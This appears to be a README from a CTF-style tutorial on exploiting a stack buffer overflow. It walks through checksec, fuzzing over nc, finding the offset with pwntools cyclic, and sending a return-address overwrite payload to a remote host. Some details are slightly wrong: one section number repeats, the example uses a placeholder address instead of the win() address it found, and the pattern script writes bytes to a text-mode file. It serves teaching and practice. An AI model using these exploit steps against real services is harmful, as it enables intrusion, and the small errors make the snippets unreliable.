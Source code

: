 # Buffer Overflow Exploitation
This section will go into detail about how to exploit buffer overflows.

## Setup
**Debugger/Disassembler:**
* [GDB](https://www.gnu.org/software/gdb/)
* [Ghidra](https://ghidra-sre.org/)

**Programming Languages:**
* [Python](https://www.python.org/)

**Python Libraries:**
* [pwntools](https://docs.pwntools.com/en/stable/)

**Extensions:**
* [Pwndbg - GDB Extension](https://github.com/pwndbg/pwndbg#readme). 

## 01 - Checksec
See this page for more information on checksec: [Checksec](../../Checksec/Readme.md).

Start by running checksec on the vulnerable binary:
```bash
$ checksec --file=vuln
```

## 02 - Fuzzing
Fuzzing is a technique used to find the offset of the buffer overflow. It involves sending a large amount of data to the program, and seeing if it crashes. If it does, then you know that you have found the offset of the buffer overflow.

```bash
$ python -c "print ('A' * 100)" | ./<executable> # Local
$ python -c "print ('A' * 100)" | nc <ip> <port> # Remote

# Alternative
$ nc <ip> <port> <<<  $(python -c 'print("A" * 100)') # Remote
```

## 03 - Finding the Offset
Once you have found the offset of the buffer overflow, you can use this to find the offset of the return address. This is done by sending a large amount of data to the program, and then sending the address of the return address. If the program crashes, then you know that you have found the offset of the return address.

Create a file called `pattern.py`:
```python
from pwn import *

# Create the pattern
pattern = cyclic(100)
print(pattern)

# Save the pattern to a file
with open('pattern.txt', 'w') as f:
    f.write(pattern)
```

Run the script:
```bash
$ gdb ./<executable>
(gdb) r < pattern.txt
```

## 03 - Creating the Payload
Look at the EIP register, lets just say it has the value `0x6161616c` and cyclic value of `laaa`.

Get the function call address for a function. An example could be win() printing out a flag:
```bash
(gdb) info functions
All defined functions:

Non-debugging symbols:
...
0x080491f6  win
0x08049281  vuln
0x080492c4  main
...
```

Now we can create a payload that will overwrite the return address with the address of the function call:
```python
from pwn import *

# Create the pattern
padding = cyclic(cyclic_find('laaa'))

# Filling the EIP with a function call address
eip = p32(0xdeadbeef)

# Creating the payload
payload = padding + eip
print(payload)
```

## 04 - Sending the Payload
Time to send the payload to the program:
```python
# Sending the payload to the program
r = remote('host', <port>)
r.recvuntil(b"Welcome. Can you guess my number?\n") # Wait for the prompt
r.sendline(payload)
r.interactive()
```
